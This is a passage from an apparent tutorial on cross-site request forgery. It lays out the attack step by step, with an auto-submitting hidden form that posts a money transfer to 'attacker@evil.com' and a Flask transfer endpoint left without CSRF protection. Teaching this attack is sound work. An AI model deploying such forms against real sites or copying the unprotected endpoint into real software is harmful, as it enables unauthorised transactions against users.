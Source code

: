 ### Step-by-Step Process

#### 1. **User Authentication**
```
User logs into vulnerable-site.com
Browser stores authentication cookies
User is now authenticated for future requests
```

#### 2. **Malicious Site Visit**
```
User visits malicious-site.com (via email, link, etc.)
Malicious site contains hidden forms or JavaScript
```

#### 3. **Request Generation**
```html
<!-- Hidden form on malicious site -->
<form action="https://vulnerable-site.com/transfer" method="POST" id="attack-form">
    <input type="hidden" name="recipient" value="attacker@evil.com">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="currency" value="USD">
</form>

<script>
    // Automatically submit form
    document.getElementById('attack-form').submit();
</script>
```

#### 4. **Browser Request**
```
Browser sends POST request to vulnerable-site.com
Browser automatically includes authentication cookies
Request appears legitimate to the server
```

#### 5. **Server Processing**
```
Server receives request with valid authentication
Server processes transfer as if user intended it
Money is transferred to attacker's account
```

### Real-World Example

#### Vulnerable Banking Application
```python
# Vulnerable endpoint
@app.route('/transfer', methods=['POST'])
def transfer_money():
    if 'user_id' in session:  # User is authenticated
        recipient = request.form['recipient']
        amount = request.form['amount']
        
        # Process transfer without CSRF protection
        process_transfer(session['user_id'], recipient, amount)
        return "Transfer successful"
    else:
        return "Not authenticated", 401
```

